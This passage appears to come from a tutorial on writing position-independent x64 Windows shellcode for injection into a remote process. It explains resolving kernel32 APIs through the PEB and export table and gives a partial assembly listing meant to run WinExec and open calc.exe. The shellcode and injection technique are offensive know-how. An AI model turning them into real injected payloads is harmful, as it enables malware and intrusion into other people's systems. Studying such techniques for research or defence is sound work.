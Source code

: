 The con of this one is that, as we want our code to be position independent to avoid any relocations, we won't have any .data section so we'll need to encode / embed our data manually in the shellcode and we'll also need to resolve the API calls ourselves (we won't have any dll resolved). 

The main challenge will be to resolve those APIs. In a compiled and linked program we are free to call VirtualAlloc if we have imported Windows.h because the program will known the address of VirtualAlloc in kernel32.dll. Some shellcode running in a remote thread of a legitimate process won't have access to that, even if the host process has kernel32 loaded into it, because the address of VirtualAlloc for example, may be different in each execution / each time the OS starts. As the shellcode comes from "outside" of the program, it won't have any reference to that. So we'll need to write some ASM that calculates the addresses of the needed API calls.

The following code will do that, [you may get a lot of examples both for x32 and x64 by googling "resolve kernel32 shellcode"](https://xen0vas.github.io/Win32-Reverse-Shell-Shellcode-part-1-Locating-the-kernelbase-address/#). 

In general terms, the code will parse the address of the PEB which can be retrieved from a fixed location and then parse the ModuleList to retrieve the base address of the needed library (kernel32 in our case). Then routine will parse the library searching for the desired API call by its name. Generally speaking, we'll only need to parse KERNEL32, mainly because LoadLibrary and GetProcessAddress are in it and can be used to load anything else we need. 

The following code contains the shellcode we'll inject into a remote process as an example, it will basically call WinExec to pop a calc.exe. Note that it is important to do some registry/stack saving / restoring before returning to the main thread! Or the program will crash.
```Asm

; based on this one https://www.exploit-db.com/exploits/49820
; List of functions in kernel32 https://www.geoffchappell.com/studies/windows/win32/kernel32/api/index.htm
global WinMain

section .text
WinMain:
; we save the return address for later
; we should save the registers also...
pop r15
push r15 

; Get kernel32.dll base address
; on an x64 syste, GS points to the TEB
; GS + 0x60 = PEB
; PEB_LDR_DATA -> Contains information about the loaded modules for the process.

xor rdi, rdi            ; RDI = 0x0
mul rdi                 ; RAX&RDX =0x0
mov rbx, gs:[rax+0x60]  ; RBX = Linear address of Process Environment Block (PEB)
mov rbx, [rbx+0x18]     ; RBX = Address_of_LDR
mov rbx, [rbx+0x20]     ; RBX = 1st entry in InitOrderModuleList / ntdll.dll
mov rbx, [rbx]          ; RBX = 2nd entry in InitOrderModuleList / kernelbase.dll
mov rbx, [rbx]          ; RBX = 3rd entry in InitOrderModuleList / kernel32.dll
mov rbx, [rbx+0x20]     ; RBX = &kernel32.dll ( Base Address of kernel32.dll)
mov r8, rbx             ; RBX & R8 = &kernel32.dll

; Get kernel32.dll ExportTable Address
mov ebx, [rbx+0x3C]     ; RBX = Offset NewEXEHeader
add rbx, r8             ; RBX = &kernel32.dll + Offset NewEXEHeader = &NewEXEHeader
xor rcx, rcx            ; Avoid null bytes from mov edx,[rbx+0x88] by using rcx register to add
add cx, 0x88ff
shr rcx, 0x8            ; RCX = 0x88ff --> 0x88
mov edx, [rbx+rcx]      ; EDX = [&NewEXEHeader + Offset RVA ExportTable] = RVA ExportTable
add rdx, r8             ; RDX = &kernel32.dll + RVA ExportTable = &ExportTable

; Get &AddressTable from Kernel32.dll ExportTable
xor r10, r10
mov r10d, [rdx+0x1C]    ; RDI = RVA AddressTable
```